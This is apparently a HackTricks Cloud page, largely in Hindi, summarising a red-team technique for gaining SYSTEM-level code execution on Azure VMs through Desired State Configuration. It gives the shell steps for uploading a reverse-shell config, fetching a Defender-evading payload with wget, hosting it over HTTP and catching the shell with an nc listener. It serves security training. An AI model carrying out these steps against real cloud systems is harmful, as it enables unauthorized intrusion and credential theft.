 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

यह प्रक्रिया एक संशोधित Nishang `Invoke-PowerShellTcp.ps1` पेलोड को होस्ट करने के लिए एक रिमोट सर्वर इन्फ्रास्ट्रक्चर सेट करने में शामिल है, जिसे `RevPS.ps1` कहा जाता है, जिसे Windows Defender को बायपास करने के लिए डिज़ाइन किया गया है। पेलोड को एक Kali Linux मशीन से IP `40.84.7.74` का उपयोग करके एक साधारण Python HTTP सर्वर के माध्यम से परोसा जाता है। यह ऑपरेशन कई चरणों के माध्यम से निष्पादित किया जाता है:

#### Step 1 — Create Files

* **Files Required:** दो PowerShell स्क्रिप्ट की आवश्यकता है:
1. `reverse_shell_config.ps1`: एक Desired State Configuration (DSC) फ़ाइल जो पेलोड को लाने और निष्पादित करने के लिए है। इसे [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1) से प्राप्त किया जा सकता है।
2. `push_reverse_shell_config.ps1`: VM पर कॉन्फ़िगरेशन को प्रकाशित करने के लिए एक स्क्रिप्ट, जो [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1) पर उपलब्ध है।
* **Customization:** इन फ़ाइलों में वेरिएबल और पैरामीटर को उपयोगकर्ता के विशिष्ट वातावरण के अनुसार अनुकूलित किया जाना चाहिए, जिसमें संसाधन नाम, फ़ाइल पथ, और सर्वर/पेलोड पहचानकर्ता शामिल हैं।

#### Step 2 — Zip Configuration File

* `reverse_shell_config.ps1` को एक `.zip` फ़ाइल में संकुचित किया जाता है, जिससे इसे Azure Storage Account में स्थानांतरित करने के लिए तैयार किया जा सके।
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — सेट स्टोरेज कॉन्टेक्स्ट और अपलोड करें

* ज़िप किया गया कॉन्फ़िगरेशन फ़ाइल एक पूर्वनिर्धारित Azure स्टोरेज कंटेनर, azure-pentest, में Azure के Set-AzStorageBlobContent cmdlet का उपयोग करके अपलोड किया जाता है।
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Step 4 — Prep Kali Box

* Kali सर्वर GitHub रिपॉजिटरी से RevPS.ps1 पेलोड डाउनलोड करता है।
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* स्क्रिप्ट को लक्षित Windows VM और रिवर्स शेल के लिए पोर्ट निर्दिष्ट करने के लिए संपादित किया गया है।

#### Step 5 — Publish Configuration File

* कॉन्फ़िगरेशन फ़ाइल को निष्पादित किया जाता है, जिसके परिणामस्वरूप रिवर्स-शेल स्क्रिप्ट को Windows VM पर निर्दिष्ट स्थान पर तैनात किया जाता है।

#### Step 6 — Host Payload and Setup Listener

* पायथन SimpleHTTPServer को पेलोड को होस्ट करने के लिए शुरू किया जाता है, साथ ही एक Netcat लिस्नर को आने वाले कनेक्शनों को कैप्चर करने के लिए।
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* निर्धारित कार्य पेलोड को निष्पादित करता है, SYSTEM-स्तरीय विशेषाधिकार प्राप्त करता है।

#### निष्कर्ष

इस प्रक्रिया का सफल निष्पादन आगे की क्रियाओं के लिए कई संभावनाएँ खोलता है, जैसे कि क्रेडेंशियल डंपिंग या हमले को कई VMs तक बढ़ाना। गाइड Azure Automation DSC के क्षेत्र में निरंतर सीखने और रचनात्मकता को प्रोत्साहित करता है।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
